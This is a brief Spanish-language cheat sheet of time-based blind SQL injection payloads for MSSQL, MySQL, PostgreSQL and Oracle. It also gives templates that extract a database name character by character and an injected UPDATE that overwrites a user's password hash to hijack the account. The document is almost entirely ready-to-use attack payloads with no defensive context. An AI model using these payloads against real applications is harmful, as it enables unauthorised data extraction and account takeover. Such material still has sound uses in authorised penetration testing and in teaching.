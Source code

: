 ### Info

Aplicamos lógica de tiempo en SQL para ver si se inyecta y es validada analizando el tiempo que tardó la response.

### PAYLOADS

| DB   | payload |
|----------|------|
| MSSQL     | '; IF 1=1 WAITFOR DELAY '0:0:10'--  |
| MySQL/MariaDB    | AND (SELECT SLEEP(10) FROM dual WHERE database() LIKE '%')  |
| PostgreSQL    | \|\| (SELECT 1 FROM PG_SLEEP(10))   |
| Oracle    | AND 1234=DBMS_PIPE.RECEIVE_MESSAGE('RaNdStR',10)  |


### Extraer el length del nombre de una db

    <dato>'; IF (LEN(db_name()))=<num> WAITFOR DELAY '0:0:10'-- 

### Extraer el nombre de una DB
Si es en cookie, quitar el ";"

    <dato>'; IF (select substring(db_name(),<index>,1))='<letra>' WAITFOR DELAY '0:0:10'-- 


### Cambiar datos de un user

Si tenemos ya exfiltrada la base de datos y algun usuario, para no exfiltrar el password podemos intentar sobreescribirlo.

Para esto deberemos buscar una password y hashearla con el mismo algoritmo en uso (esto lo sacamos por fuerza bruta) 

    '; update <tabla> set password_hash = '<hash>' where username = '<user>';--

## Apéndice:
SQLMAP tiene todas las respuestas xD
